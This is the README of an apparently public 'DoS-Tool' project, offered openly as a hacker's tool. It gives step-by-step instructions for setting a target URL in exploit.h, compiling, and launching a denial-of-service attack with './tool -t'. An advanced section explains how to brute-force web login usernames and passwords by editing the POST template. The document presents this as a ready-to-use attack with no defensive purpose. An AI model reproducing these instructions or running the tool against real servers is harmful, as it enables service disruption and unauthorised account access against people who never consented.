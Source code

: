 # DoS-Tool

For hacker's tool.

# Install in Debian or Ubuntu series Linux system

```
sudo apt install openssl libssl-dev
```

[Chinese help](https://github.com/rikonaka/SYN-Flood-DoS-Tool/blob/master/README-ZH.md)

# Usage:

We need compile this code first.

## Change target IP

Before we attack, there is something we need change.

First, the IP address.

This IP or URL address is in the line 30 of `exploit.h`.
```
vim exploit.h
```

Just use the target URL replace this `POST_URL` value.

But don't forget the `http://`.

(This code was used to exploited the web server's login
password, the attack features is add recently, so here we
have to add this `http://`, but calm down, this code will
auto separate this IP address from URL)

```
#define POST_URL "http://192.168.20.1:80/login.cgi"
```

If you want to attack the IP address of `192.168.1.1`.

Replace the `POST_URL` with `http://192.168.1.1`.

# Compile

```
make
```

This command will generate a excutable file named 'tool'.

Then, begian you evil attack.

```
./tool -t
```

# Usage

```
Usage : ./tool
      : ./tool -r -d
      -r   Use the random user name(default use the admin as user name)
      -d   Debug mod
      -t   Attack mod(this mod will not guess the correct password)
```

# Advanced usage

If you want to use this code to guess some server's username or password.

Also, you have the edit the `exploit.h` which in line 30.

Then change the line 10:

```
#define POST_MODEL "user=%s&password=%s&Submit=登+陆"
```

Define youself's `POST_MODEL`.

After that, compile this code again and excuted `tool`.

If you want to more, just change this code by you self.
